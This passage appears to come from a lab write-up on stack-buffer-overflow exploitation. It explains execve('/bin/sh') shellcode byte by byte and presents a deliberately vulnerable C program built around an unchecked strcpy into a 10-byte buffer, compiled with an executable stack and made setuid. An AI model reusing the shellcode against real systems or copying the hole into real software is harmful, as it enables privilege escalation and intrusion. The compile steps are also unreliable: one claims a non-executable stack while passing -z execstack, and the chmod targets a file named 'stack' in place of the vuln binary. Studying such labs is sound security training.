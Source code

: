 Then run the command to compile thecode using Non-Executable Stack.
```
gcc -z execstack -o shellcode shellcode.c
```

Let us breakdown the shellcode:
```
Breaking down the shellcode itself, here's what each line does:

1."\x31\xc0": XOR the EAX register with itself, effectively setting it to 0.

2."\x50": Push the value of EAX (which is now 0) onto the stack.

3."\x68""//sh": Push the string "//sh" onto the stack.

4."\x68""/bin": Push the string "/bin" onto the stack.

5."\x89\xe3": Move the value of ESP (the stack pointer) into the EBX register.

6."\x50": Push the value of EAX (which is still 0) onto the stack.

7."\x53": Push the value of EBX (the address of the "/bin/sh" string) onto the stack.

8."\x89\xe1": Move the value of ESP (the stack pointer) into the ECX register.

9."\x99": Perform the CDQ instruction, which sets the value of EDX to 0.

10."\xb0\x0b": Move the value 0x0b into the AL register.

11."\xcd\x80": Trigger an interrupt 0x80, which is used for system calls in Linux. This specific system call (0x0b) will execute the command specified by the "/bin/sh" string, spawning a new shell.
```
>Overall, this shellcode is designed to spawn a new shell on a Linux system by executing a specific system call. It achieves this by carefully manipulating the stack and registers in order to pass the necessary arguments to the system call function.

(4) Vuln.c
Here we are given the following C code file, to perform a stack smash on this vuln.c code:
```c
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {
  // Make some stack information
  char a[100], b[100], c[100], d[100];
  // Call the exploitable function
  exploitable(argv[1]);
  // Return: everything is OK
  return(0);
}

int exploitable(char *arg) {
  // Make some stack space
  char buffer[10];
  // Now copy the buffer
  strcpy(buffer, arg);
  printf("The buffer says .. [%s/%p].\n", buffer, &buffer);
  // Return: everything fun
  return(0);
}
```
After writing the vulnerable program compile the code and make it set-root-uid by:
```
gcc -o vuln -z execstack vuln.c
chmod 4755 stack
```